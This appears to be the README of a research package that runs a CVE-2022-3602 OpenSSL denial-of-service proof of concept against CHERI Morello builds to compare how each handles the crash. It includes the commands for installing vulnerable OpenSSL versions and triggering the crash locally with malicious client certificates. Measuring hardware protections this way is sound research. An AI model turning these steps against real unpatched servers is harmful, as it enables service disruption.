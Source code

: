 # OpenSSL Vulnerability PoC

Node.JS functions for testing a Denial-of-Service (DoS) attack on OpenSSL
exploiting [CVE-2022-3602](https://nvd.nist.gov/vuln/detail/CVE-2022-3602).

These functions are adapted from the
[malicious client scenario in DataDog/security-labs-pocs@d25e1ac][1]

[1]: https://github.com/DataDog/security-labs-pocs/tree/d25e1ac3a240489cda949114c732793685a1fae6/proof-of-concept-exploits/openssl-punycode-vulnerability/malicious_client

## Usage

These are currently only mocked functions, so the API may change in the future.

```javascript
import {
  MorelloPurecapOpenSSLTestCase,
  MorelloHybridOpenSSLTestCase,
} from "@nqminds/openssl-vuln-poc";

import {DockerServer} from "@nqminds/openssl-vuln-poc/src/docker.mjs";

// These are the credentials of a local morello server running
// in a docker container
const sshOptions = {
  username: "root",
  host: "127.0.0.2",
  port: 2224,
};

const dockerServer = new DockerServer({
  port: sshOptions.port,
});
// ~will take hours to download on the first time~
// Use `podman pull docker.io/aloisklink/cheribuild-edgesec:morello-purecap-20220511`
// to view progress.
// next times should take a few minutes to startup
await dockerServer.setup({quiet = false});

// or use MorelloHybridOpenSSLTestCase
const testCase = new MorelloPurecapOpenSSLTestCase({
  sshOpts: sshOptions,
});

// installs vulnerable OpenSSL versions, and caches
// `ssh` connection for 60 minutes for faster tests
await testCase.setup();

// run your tests as many times as you want
// (MorelloHybridcapOpenSSLTestCase can use the same connection)
const res = await testCase.run();
console.log(`Server output error logs were: ${res.server.stderr}`);

await dockerServer.stop();
```

## Bash scripts to implement in JavaScript

### Server

```bash
openssl s_server -accept 31050 -CAfile certs/cacert.pem -cert certs/server.cert.pem -key certs/server.key.pem  -state -verify 1
```

Results:

- Safe: Server stays active.
- Vulnerable (CHERI Hybrid): malicious payload runs and calls `Abort()`
  - Exit code: 0x86 (`SIGTRAP`)
- Vulnerable (CHERI Purecap): malicious payload is caught by CPU and is killed with `In-address space security exception (core dumped)`
  - Exit code: 0xA2 (`SIGPROT`)

## Client

```bash
openssl s_client -connect 127.0.0.1:31050 -key certs/client.key.pem  -cert certs/client.cert.pem -CAfile certs/malicious-client-cacert.pem -state
```

## Running docker commands manually

The following commands should be run automatically by the Node.JS code:

```bash
podman run -it --user root --rm --publish 127.0.0.2:2222:2222/tcp docker.io/aloisklink/cheribuild-edgesec:morello-purecap-20220511 bash -c $'
#!/usr/bin/env bash

set +e # exit on error

su --command \'mkdir /home/ubuntu/.ssh && printf "%s" "$1" > /home/ubuntu/.ssh/cheribsd-ssh-key.pub\' -- ubuntu "n/a" "$1"

# pipes everything on port 2222 to `localhost:2223`
# This is so that we can access the SSH server from outside the docker container
apt-get update && apt-get install socat --yes
socat tcp-listen:2222,reuseaddr,fork tcp:localhost:2223 &

su --command \'cd /home/ubuntu/cheribuild && ./cheribuild.py --run/ephemeral --run/ssh-forwarding-port 2223 disk-image-morello-purecap run-morello-purecap --skip-update\' -- ubuntu

# wait for socat to finish running
wait
' "arg0 (unused)" "$(cat ~/.ssh/id_ed25519.pub)"
```

Wait the ~2/3 minutes the above command will take until you get into a CHERIBSD shell.
Then you can run `pkg64c install --yes openssl-devel-3.0.2` and `pkg64 install --yes openssl-devel-3.0.2`.

Finally, you can run the following `scp` command to copy over the malicious OpenSSL certificates:

```bash
scp -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no -r ./certs scp://root@127.0.0.2:2222/
```

### Server

#### Hybrid

(For `purecap`, use `/usr/local/bin/openssl`)

```bash
ssh -o RequestTTY=force -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no ssh://root@127.0.0.2:2222 sh -c '"/usr/local64/bin/openssl s_server -accept 31050 -CAfile certs/cacert.pem -cert certs/server.cert.pem -naccept 1 -key certs/server.key.pem -state -verify 1; exit $?"'
```

### Client

```bash
ssh -o RequestTTY=force -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no ssh://root@127.0.0.2:2222 sh -c '"openssl s_client -connect 127.0.0.1:31050 -key certs/client.key.pem -cert certs/client.cert.pem -CAfile certs/malicious-client-cacert.pem -state; exit $?"'
```

